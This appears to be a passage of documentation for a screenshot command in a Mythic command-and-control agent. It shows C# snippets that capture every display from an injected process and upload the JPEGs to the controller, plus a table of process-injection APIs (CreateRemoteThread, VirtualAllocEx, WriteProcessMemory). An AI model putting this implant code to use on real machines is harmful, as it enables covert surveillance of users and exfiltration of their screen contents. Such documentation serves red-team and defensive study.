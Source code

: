 #### Memory Usage Optimization
```csharp
// Efficient memory management in injected process
using (Bitmap bmpScreenCapture = new Bitmap(screen.Bounds.Width, screen.Bounds.Height))
{
    using (Graphics g = Graphics.FromImage(bmpScreenCapture))
    {
        using (MemoryStream ms = new MemoryStream())
        {
            // Immediate disposal of resources
            bmpScreenCapture.Save(ms, ImageFormat.Jpeg);
            return ms.ToArray();
        }
    }
}
```
- Uses `using` statements for automatic resource disposal
- Processes screenshots sequentially to minimize memory footprint
- Implements JPEG compression to reduce data size
- Cleans up GDI+ resources immediately

#### Network and File Transfer
```csharp
ST.Task<bool> uploadTask = new ST.Task<bool>(() =>
{
    return _agent.GetFileManager().PutFile(_cancellationToken.Token, _data.ID, 
        screen, null, out string mythicFileId, true);
}, _cancellationToken.Token);
```
- Uploads screenshots asynchronously to prevent blocking
- Uses cancellation tokens for task management
- Implements error handling for failed uploads
- Provides progress feedback through intermediate responses

## APIs Used
| API | Purpose | DLL/Namespace |
|-----|---------|---------------|
| `Process.GetProcessById` | Validate target process | System.Diagnostics |
| `Graphics.CopyFromScreen` | Capture screen pixels | System.Drawing |
| `Screen.AllScreens` | Enumerate displays | System.Windows.Forms |
| `NamedPipeClientStream` | IPC communication | System.IO.Pipes |
| `Bitmap.Save` | Image encoding | System.Drawing |
| `CreateRemoteThread` | Thread creation (injection) | kernel32.dll |
| `VirtualAllocEx` | Memory allocation (injection) | kernel32.dll |
| `WriteProcessMemory` | Memory writing (injection) | kernel32.dll |
